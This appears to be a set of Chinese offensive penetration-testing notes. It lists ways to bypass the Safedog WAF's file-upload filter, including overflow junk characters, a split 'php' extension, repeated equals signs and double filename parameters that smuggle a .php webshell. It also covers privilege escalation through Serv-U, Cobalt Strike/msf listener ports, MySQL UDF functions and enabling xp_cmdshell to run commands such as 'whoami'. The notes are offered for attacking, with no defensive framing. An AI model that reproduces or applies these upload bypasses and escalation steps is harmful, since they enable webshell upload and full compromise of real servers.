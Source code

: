 ## 安全狗 上传 ##

白名单只能审包含或者配合中间件漏洞


在content-Dispositon中修改

垃圾字符绕过(溢出)

换行:

    1
    .
    p
    h
    p


等号: filename=====1.php

双文件名 filename="1.jpg";filename="1.php"

## 提权 ##

# windows类型  #

溢出漏洞，第三方，数据库，软件，dll

# serv u #

端口:43958

大马会有，并且存在版本漏洞


# cs使用 #
1，cmd 执行马

2，sleep 0

3，

https支持 443 2053 2083 2096，msf要用支持的端口，不然不能上线(不用443)


# 数据库类型 #
 ## 一 ## 

用udf提权，建立在mysql func基础上，有insert delete，就可以创建函数达到攻击目的

大于5.1:  放在 mysql\lib\plugin上


## 二 ##
1，连接数据库

2，打开xp_cmdshell

3,调用即可提权成功 exec master.dbo.xp_cmdshell 'whoami'



## linux类型 ##

